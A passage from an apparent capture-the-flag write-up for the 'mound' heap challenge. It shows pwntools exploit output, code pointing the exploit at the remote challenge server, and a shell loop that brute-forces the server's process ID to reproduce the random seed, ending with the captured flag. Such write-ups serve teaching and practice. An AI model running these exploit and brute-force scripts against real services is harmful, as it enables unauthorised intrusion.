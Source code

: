 Locally, this works!

```c
[*] [libc] Running '/mound' with libs in '/libc-database/libs/libc6_2.31-0ubuntu9.1_amd64'!
[+] Starting local process '/libc-database/libs/libc6_2.31-0ubuntu9.1_amd64/ld-linux-x86-64.so.2': pid 10422
[*] Loaded 15 cached gadgets for 'mound'
[*] Loaded 201 cached gadgets for '/libc-database/db/libc6_2.31-0ubuntu9.1_amd64.so'
[+] Receiving all data: Done (100B)
[*] Stopped process '/libc-database/libs/libc6_2.31-0ubuntu9.1_amd64/ld-linux-x86-64.so.2' (pid 10422)
b'test{flag}\n.^J\xb5o\x00\x00\x00\x00\x00\x00\x00\x00\xc72\x89f\xe9O\xc1\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
```

On remote, this is a little more difficult. Paying attention to these two local-specific lines:

```python
r = context.binary.process()
libc.srand(t^r.pid)
```

I need some method to guess the PID of the challenge on remote. Considering that the standard maximum PID number is `1<<15`, I decided to try my luck with bruteforcing it<sup>5</sup>, replacing the code above with,

```python
r = remote('193.57.159.27', 41932)
libc.srand(t^int(args.PID))
```

 And executing the following shell script:

```sh
for i in `seq 1 3 32768` # increment PID by 3 for every guess; internally in the docker container
do python3.8 mound.py PID="$i" # the PID increases by 2 for every connection, so this improves the guessing 
done | tee mound.log
```

It doesn't work the first time around, but I repeat the process to obtain the flag:

```sh
$ grep { *.log
mound2.log:b'rarctf{all0c4t0rs_d0_n0t_m1x_e45a1bf0b2}\n\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00Segmentation fault\n'
```

And with that, I'm done with the technical stuff.

## Mistakes

[Content warning: unsubstantiated opinions]
